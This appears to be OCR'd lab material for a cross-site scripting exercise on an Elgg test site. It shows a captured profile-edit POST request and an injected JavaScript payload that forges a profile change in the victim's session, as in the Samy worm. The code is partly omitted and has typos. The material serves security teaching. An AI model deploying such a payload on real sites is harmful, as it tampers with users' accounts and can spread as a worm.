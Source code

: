 ```
http://www.csrflabelgg.com/action/profile/edit

POST /action/profile/edit HTTP/1.1
Host: www.csrflabelgg.com
User-Agent: ...
Accept: ....
Accept-Language: ...
Referer: www.csrflabellgg.com/profile/samy/edit
Cookie: Elgg-mpasspvn1q67od11k19rkklema4
Content-Type: ...
Content-Length: ...
__elgg_token=1cc8v5c...&__elgg_ts=1489203659
&name=Sammy
&description=SAMMY+is+my+friend
&accesslevel%5Bdescrption%5D=2
...
&guid=42

```

### Ajax Code: Send POST Request

```js
var name = "&name="+elgg.session.user.name;
var guid = "&guid="+elgg.session.user.guid;

//access tiesand and security token
//...code omitted...

//set the content and access level for the description firld

var desc="&description=SAMY+is+my+HERO";
desc+= "&accesslevel%fBdescription%5d=2";

//send the the url
var sendurl="http://www.xsslabelgg.com/action/profile/edit";

if(elgg.session.user.guid!=50){
  var Ajax=new XMLHttpRequest();
  Ajax.open("POST",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  Ajax.send(token+ts+name+desc+guid);
}
```


